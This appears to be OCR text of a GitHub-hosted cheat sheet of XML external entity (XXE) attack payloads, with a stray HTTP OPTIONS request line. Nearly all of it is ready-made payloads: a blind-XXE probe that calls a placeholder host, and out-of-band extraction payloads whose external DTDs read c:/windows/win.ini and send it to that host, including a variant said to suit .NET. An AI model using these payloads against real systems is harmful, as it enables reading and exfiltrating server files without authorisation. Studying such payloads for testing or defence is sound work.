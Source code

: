 ```OPTIONS / HTTP/1.1``` 
## Cheat Sheet for XML-related Issues, such as XXE
```
-------------------------------------------------------------- 
Vanilla, used to verify outbound xxe or blind xxe 
-------------------------------------------------------------- 
 
<?xml version="1.0" ?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY > 
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt"> 
]> 
<r>&sp;</r> 
 
--------------------------------------------------------------- 
OoB extraction 
--------------------------------------------------------------- 
 
<?xml version="1.0" ?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY > 
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml"> 
%sp; 
%param1; 
]> 
<r>&exfil;</r> 
 
## External dtd: ## 
 
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini"> 
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>"> 
 
---------------------------------------------------------------- 
OoB variation of above (seems to work better against .NET) 
---------------------------------------------------------------- 
<?xml version="1.0" ?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY > 
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml"> 
%sp; 
%param1; 
%exfil; 
]> 
 
## External dtd: ## 
 
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini"> 
<!ENTITY % param1 "<!ENTITY % exfil SYSTEM 'http://x.x.x.x:443/?%data;'>"> 
 
--------------------------------------------------------------- 
OoB extraction 
--------------------------------------------------------------- 
 